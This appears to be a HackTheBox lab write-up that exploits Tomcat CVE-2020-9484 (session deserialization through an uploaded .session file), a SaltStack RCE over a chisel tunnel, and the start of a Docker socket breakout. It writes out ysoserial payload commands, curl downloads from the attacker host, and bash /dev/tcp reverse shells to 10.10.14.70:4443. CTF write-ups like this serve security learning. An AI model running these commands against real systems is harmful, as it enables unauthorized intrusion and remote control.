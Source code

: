 HackTheBox
# Scan
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240401181810.png)

# Uploading files
When trying to upload a file, it accepts all extension, even whithout any, however when there is no filename, there is an error.

[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240402175526.png)

Testing email: *test@tes    t.com* We have an error as well:
[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240402175654.png)
It seems that the upload folder is */opt/samples/uploads* but we don't have access to this

Considering the errors and nmap scan result, this service uses **Apache 9.0.27** which is vulnerable

https://github.com/PenTestical/CVE-2020-9484

Explanation of CVE-2020-9484
https://www.prismosystems.com/blog/cve-2020-9484#:~:text=Exploitation%20Details%20of%20CVE%2D2020%2D9484&text=The%20vulnerability%20resides%20in%20Persistent,of%20the%20attacker%2Dcontrolled%20object.

If *JSSESIONID=../../../../../tmp/test* , at first the manager will verify if this is in memory, is not Persistance Manager (if configured) check if this is stored in disk in the path as *"sessionid".session*

It will look in that path as test.session, as we know that probably .session file will be stored in */opt/samples/uploads* so we can create the payload:

*JSESSIONID=../../../../opt/samples/uploads/file*

Using a *filename=file.session*, in this maner as JSESSIONID doesn't exist in memory, Pesistance Manager wil look for add the extension .session to file, we wiil look for *file.session* in upload *file* and as there is a coincidence, it will execute *file.session*

Using Vulnerable Serialization
#VulnerableSerialization
![[Ysoserial]]

Tyring a ping test, we craft a payload loading a file *ping.session*

`java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections1 'ping -c 1 10.10.14.70' > ping.session`

We can now upload *pin.session* to the vulnerable web server.

### Execution of the payload
We can call this file directly by using *curl* and to get the pin response, we wait for a response by using *tcpdump* tool, the vulnerable JSESSIONID receives the storage path of the application and Persistant manager adds '.session' at the end
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/ping"
````

However, we don't receive anything

[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403082426.png)
### Using CommonsCollections2
````
java -jar ysoserial-all.jar CommonsCollections2 'ping -c 1 10.10.14.70' > ping2.session
````
[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403155457.png)
After loaded, we lunch the curl:
`curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/ping2"`

Now we receive the ICMP

**Note:** It's necessary to have a JSESSION ID to load the file so at first we must try with different payloads or load many time until get one, if not it won't work.

## Remote Code execution

We can send a reverse shell in three steps:
### 1. Generating the reverse shell
By leveraging curl, we can upload by a web server in our side by crafting an *index.html* file with a reverse shell:

`#!/bin/bash`
`bash -i >& /dev/tcp/10.10.14.70/4443 0>&1`

Creating the file, after uploaded to the file
 java -jar ysoserial-all.jar CommonsCollections2 'curl 10.10.14.70 -o /dev/shm/reverse.sh' > pwned.session

````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned"
````

We get a GET request so we can infer it was executed and 
[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403160836.png)
### 2. Giving execution permission
````
 java -jar ysoserial-all.jar CommonsCollections2 'chmod +x /dev/shm/reverse.sh' > pwned2.session
````

Load the file and then
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned2"
````
### 3. Generating the shell
````
 java -jar ysoserial-all.jar CommonsCollections2 '/dev/shm/reverse.sh' > pwned3.session
````

Load the file and then
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned3"
````

curl must be executing with the port 4443 already listening

[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403163214.png)

## Privilege Escalation
We can exploit pkexec but it's not the purpose of this machine 
`find \-perm -4000 2>/dev/null`
[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403163952.png)

Reviewing internal ports
`netstat -nat`

[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403164128.png)

## SaltStak exploitation
Ports 4505 and 4506 were not found in nmap scam

https://www.exploit-db.com/exploits/48421

[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403171344.png)

For this exploit we need to have installed module *salt*

As ports 4505 and 4506 are open internally, we can have access to them by chisel 
Uloading chisel:
[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403172222.png)

Creating the tunnel:
[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403172333.png)

Adding to /etc/proxychains.conf

[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403172430.png)

### Using the exploit with proxychains

`proxychains python3 ssaltstack_exploit.py`

Testing command execution with the exploit:
`proxychains python3 ssaltstack_exploit.py --exec "ping 10.10.14.70"`
[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403172910.png)

### Creating a shell to the container
We test as first `"bash -c 'bash -i >& /dev/tcp/10.10.14.70/4443 0>&1'"` but it doesn't work, considering using *'* at the beginning and *"* in the inner bash.

`proxychains python3 saltstack_exploit.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.70/4443 0>&1"'`

[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403173313.png)

## Docker Container breakout
[[Docker Breakout]]

Checking files and *history* of the machine  
- The `history` command in Linux is a powerful feature used primarily in command-line interfaces (CLI) to display a list of commands that have been previously entered by the user in the current session or saved in a user's history file
We found a curl to *docker.sock* to list images

[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403175021.png)
we only have access to this with *--unix-sockets*

We can see the same information prettier by sending to the attacker machine

[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403180537.png)
[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403180522.png)

We can try as well:
`curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json`

To get access to dockers from the main machine, we don't have permissions but we can confirm that the path is /file/run/docker that is found in the container
[![[Pasted image ](https://github.com/flucasd7/Ethical-Hacking)20240403180841.png)

## Writable Docker Socket
We already found an image called *sandbox:latest* 

![[Writable Docker Socket (docker.sock)]]
